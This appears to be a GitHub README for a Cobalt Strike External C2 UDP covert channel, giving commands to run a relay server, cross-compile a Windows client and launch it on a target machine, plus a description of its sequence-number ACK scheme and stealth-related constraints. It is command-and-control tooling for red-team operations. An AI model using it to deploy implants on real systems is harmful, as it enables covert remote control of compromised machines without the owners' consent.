 # COBALT STRIKE ROBUST UDP CHANNEL

This project provides a UDP-based communication channel for Cobalt Strike. This is meant as a base for covert channels implemented in any UDP-based protocol.

This channel guarantees in-order delivery delivery. It does this through sequence numbers and generic ACK packets. Full description is below the guide.

This channel also assumes the network uses IPv4. TCP allows for protocol-agnostic sockets, but UDP does not. Changing the socket to IPv6 currently requires editing the code.

To use the Robust UDP channel, load up Cobalt Strike and add a new External C2 listener.
This channel is configured to run on the default Teamserver port of 2222.

To start the server, run the following command:

> python3 server.py [Teamserver IP] [Python Server IP] [Port] [Pipename] [OPTIONAL:-tp TeamserverPort]

- [Teamserver IP] is the IP of your Cobalt Strike teamserver.
- [Python Server IP] is the IP of the machine you are running server.py on. (“0.0.0.0” has been found to work on Linux machines, though it is unknown if this behavior is consistent everywhere.)
- [Port] is the port that the server communicates with the client over. This is not the same port that the Python server uses to communicate with the teamserver.
- [Pipename] is the name of the pipe the client creates when it runs on the target. This could be any valid pipename.
- [TeamserverPort] is the port to connect to on the Cobalt Strike teamserver. It defaults to 2222 and is an optional argument.  

If you have the MinGW compiler installed, you may compile the client.c code with the following command:

> i686-w64-mingw32-gcc -s -O3 -fvisibility=hidden -o client.exe client.c -lws2_32

Change the client exe name if desired.
Move the resultant executable to your target machine, and then run it with the following command:

>./[Name].exe [Python Server IP] [Port] [Pipename] [Target IP] [Target Port] [Sleep]

- [Name] is the name of your client executable.
- [Python Server IP], [Port], and [Pipename] must be the same as the ones passed to server.py.
- [Target IP] is the IP address of the machine the client runs on.
- [Target Port] is the port you wish to communicate through on the target.
- [Sleep] is the sleep time (in seconds) to wait between check ins with the server.

## GUARANTEED DELIVERY DESCRIPTION

This channel uses generic ACK packets and packet sequence numbers to provide reliable data transmission over UDP.

Every packet (except for ACKs) starts with a 4-byte sequence number. In the current implementation, this number starts at 0 and increments by 1 for every successful receipt. The recipient of a packet first checks the sequence number. If it’s equal to the expected sequence number, the recipient sends a generic ACK, takes in the data, and increments the expected sequence number by 1. If the sequence number received is less than the expected sequence number, the recipient sends an ACK but doesn’t do anything else. If the sequence number received is greater than the expected sequence number, the recipient does nothing. (This is undefined behavior; the program should never reach this point.) The ACK message just consists of the word “ACK”. It does not contain an acknowledgement number.

When transmitting data, the sender sends packets one at a time. After every transmission, the sender waits until a specified timeout for an ACK packet. If no ACK is received, the sender retransmits the packet. Once the sender receives an ACK packet, they will increment their sequence number by 1 and transmit any more data if necessary.

The timeout and packet max size are defined in the code. If you change it, it is recommended that the client timeout be twice as long as the server timeout due to the server forwarding data to the teamserver and back. Currently, the timeout is 5 seconds for the server and 10 seconds for the client. The packet payload max size is currently 1024 bytes. Senders repeatedly transmit packets of that size or less until all of their data is sent. (Note: this max size does not include the sequence number, so the actual packet sent will have a payload of 1028 bytes.)

## CONSTRAINTS

- This channel expects only one client per instance of server.py. Multiple clients communicating with the same server requires multiple instances of server.py running on different ports.
- This channel does not disconnect its beacon connection. If the server goes down, the client will continue sending packet retransmissions to the dead IP address until the process is killed. This may pose stealth issues.
- The sequence numbers do not roll over, so 2^32 packets is the maximum that can be sent by either the client or the server.

## TODOS/IMPROVEMENTS

- UDP does not allow for protocol-agnostic sockets. A choice between IPv4 and IPv6 should be included as an argument passed to both programs.
- A more efficient solution than "ack every packet" should be developed. One idea I had was be to have the recipient ACK a size packet, then allocate an array to keep track of the packets received for that payload. The recipient only sends an ACK once they receive all the data, and the sender retransmits everything if they don't receive an ACK.
- Allow the user to control the timeout and packet size via commmand line arguments.
- Start the sequence number on a randomly generated value. (Both the client and the server are configured to handle receiving an arbitrary sequence number, but they don't send randomized ones as of yet.)
- Packets from the server to the client calculate the checksum incorrectly according to Wireshark. Possibly UDP Checksum Offloading.
- When capturing the entire connection, Wireshark identifies the traffic as QUIC protocol. Unknown why this is.
